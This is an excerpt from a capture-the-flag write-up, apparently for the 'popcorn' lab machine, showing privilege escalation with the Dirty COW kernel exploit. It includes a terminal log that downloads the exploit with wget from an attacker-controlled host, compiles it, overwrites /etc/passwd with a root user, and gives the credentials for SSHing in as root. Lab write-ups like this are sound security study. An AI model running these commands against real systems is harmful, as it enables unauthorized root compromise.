 I used the folloing exploit: https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c

```
www-data@popcorn:/dev/shm$ wget http://10.10.14.17:8000/exploits/dirty.c
--2018-11-06 23:53:07--  http://10.10.14.17:8000/exploits/dirty.c
Connecting to 10.10.14.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: `dirty.c'

100%[======================================>] 4,815       --.-K/s   in 0s      

2018-11-06 23:53:07 (12.6 MB/s) - `dirty.c' saved [4815/4815]

www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt 
www-data@popcorn:/dev/shm$ ./dirty 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fibnRbOmlleQM:0:0:pwned:/root:/bin/bash

mmap: b7842000
```

Then we just need to SSH into the box with firefart:hacker to get root.
